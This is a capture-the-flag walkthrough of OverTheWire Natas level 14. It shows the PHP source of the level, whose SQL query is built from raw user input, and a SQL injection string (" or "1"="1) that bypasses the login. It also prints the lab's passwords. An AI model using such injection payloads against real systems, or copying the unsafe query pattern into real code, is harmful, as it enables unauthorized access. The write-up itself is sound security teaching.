


# Level 14
## What does the page look like?
```html
$ curl -s --user natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
## Source code
```html
$ curl -s --user natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org/index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</
script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST
["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Vulnerability and Exploitation
First notice that the PHP script is combining `POST` and `GET` methods:
* **POST method** is used to get the value of the `username` and `password`
* **GET method** is used to get the value of the `debug` variable

We'll take advantage of that to see what our request look like, and display the flag.

Let's inject the following content to both fields: `" or "1"="1`

Also use the developer bar to add `?debug=1` after `index.php` in the form's action:





# Flag
~~~~
natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
~~~~
